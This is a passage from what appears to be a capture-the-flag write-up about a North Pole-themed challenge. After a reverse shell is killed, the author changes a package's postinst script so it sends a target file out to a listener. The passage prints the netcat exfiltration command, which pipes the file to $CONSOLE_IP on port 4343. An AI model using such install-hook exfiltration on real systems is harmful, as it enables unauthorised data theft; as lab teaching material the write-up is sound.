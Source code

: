 ![Reverse Shell Fail](img/reverse_shell_fail.png)
Since the netcat process was able to open a session, it may be possible to cat out the contents to the target file before the session gets killed. This is done by modifying the `postinst` script to read the file rather then exec a reverse shell. `nc $CONSOLE_IP 4343 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. After making these changes the contents of the file are captured by the netcat listener!